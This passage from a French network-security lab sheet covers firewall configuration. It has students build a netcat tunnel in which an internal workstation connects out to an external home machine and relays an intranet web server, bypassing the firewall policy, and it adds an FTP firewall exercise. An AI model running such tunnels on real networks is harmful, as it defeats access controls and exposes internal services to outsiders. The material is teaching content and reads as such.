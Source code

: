 > Question 9 : Décrivez vos interfaces réseaux/leur segment et recopiez vos commandes IPTables.

Contournement de la politique
-----------------------------

Imaginez que vous êtes le développeur et que vous souhaitez fournir un accès au serveur web interne de prototypage "target-intranet" à un
client externe, alors que celui-ci n'est normalement pas accessible de l'externe ! Vous allez créer un tunnel pour contourner la politique de sécurité.
Vous disposez pour cela des machines "target-dev" (votre poste de travail interne) et "isp-a-home" (une machine extérieure, à votre domicile).

Nous allons utiliser l'outil `netcat` pour établir un tunnel très simple.

Connectez-vous sur la machine "isp-a-home". Nous allons commencer par éteindre le service _Apache_ en écoute pour libérer le port 80 qui nous sera utile
puis nous allons écouter les connexions sur le port HTTP (TCP/80).
```bash
service apache2 stop
while true; do nc -v -l -p 80 -c "nc -l -p 8080"; done
```

Enfin, côté "target-dev", nous mettons en place la connexion sortante vers la machine distante:
```bash
while true; do nc -v 100.120.0.3 80 -c "nc 100.80.0.5 80"; sleep 2; done
```

>Pour rappel :
>* 100.120.0.3 = isp-a-home
>* 100.80.0.5 = target-intranet

Testez avec la machine "isp-a-hacker" que vous pouvez bien accéder au serveur intranet depuis l'externe sans aucun contrôle via l'URL `http://100.120.0.3:8080`

> Question 10 : À l'aide d'un schéma, expliquez ce phénomène.

Il est très difficile de bloquer ou même détecter les tunnels (imaginez un tunnel chiffré par SSH, ou qui mime une apparence de HTTP, etc.)


Bonus FTP
=========

FTP, comme quelques autres protocoles, présente des difficultés particulières pour les firewalls. En effet, la partie contrôle de FTP se passe sur une connexion (et un port) distinct de la partie données. Les firewalls modernes savent créer le lien entre ces deux connexions pour y appliquer un contrôle adapté.

Un serveur FTP est installé sur "target-dmz", configurez le firewall pour permettre son usage (transfert de fichiers) depuis une machine externe au SI. Attention, le FTP demande une connexion avec un utilisateur existant, par exemple debian/debian.

**Votre compte-rendu doit être déposé sur Moodle au format PDF uniquement**
